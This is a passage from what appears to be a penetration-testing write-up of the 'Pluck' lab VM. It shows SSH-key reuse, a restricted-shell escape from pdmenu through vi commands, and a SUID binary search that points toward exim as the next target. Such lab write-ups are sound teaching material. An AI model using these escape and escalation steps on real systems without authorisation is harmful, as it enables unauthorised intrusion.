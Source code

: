 It looks like paul didn't put much effort into securing his SSH keys. Lastly, peter:

``` 
root@kali:~/home/peter# ls -la
total 20
drwxr-xr-x 2 1001 1001 4096 Jan 18 03:04 .
drwxr-xr-x 5 root root 4096 Jan 18 03:27 ..
-rw-r--r-- 1 1001 1001  220 Jan 18 03:04 .bash_logout
-rw-r--r-- 1 1001 1001 3771 Jan 18 03:04 .bashrc
-rw-r--r-- 1 1001 1001  655 Jan 18 03:04 .profile
```

## Privilege escalation

Back to paul, and trying those SSH keys. Tried each, the 4th one worked, but it dropped me to this menu:

{% img center /images/pentest/pluck/pdmenu.png 'pdmenu' 'pdmenu' %}

So, what is pdmenu?

> Pdmenu is a full screen menuing system for Unix. It is designed to be easy to use, and is suitable as a login shell
> for inexperienced users, or it can just be ran at the command line as a handy menu.

Not much I can do with this, however, the option to edit a file launches vi! I remembered another challenge where vi helped me escape shell restrictions, and found a [SANS article](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells) about this exact topic. To get a proper shell, I typed the following in vi's command mode:

``` 
:set shell=/bin/bash
:!bash
``` 

That dropped me into paul's shell:

``` 
paul@pluck:~$ id
uid=1002(paul) gid=1002(paul) groups=1002(paul)
```

SUID enumeration led me to the next step:

``` 
paul@pluck:~$ find / -perm -4000 2>/dev/null
/usr/exim/bin/exim-4.84-7
/usr/bin/passwd
/usr/bin/at
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/bin/chsh
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/s-nail/s-nail-privsep
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/bin/su
/bin/umount
/bin/mount
/bin/fusermount
/bin/ping
/bin/ntfs-3g
```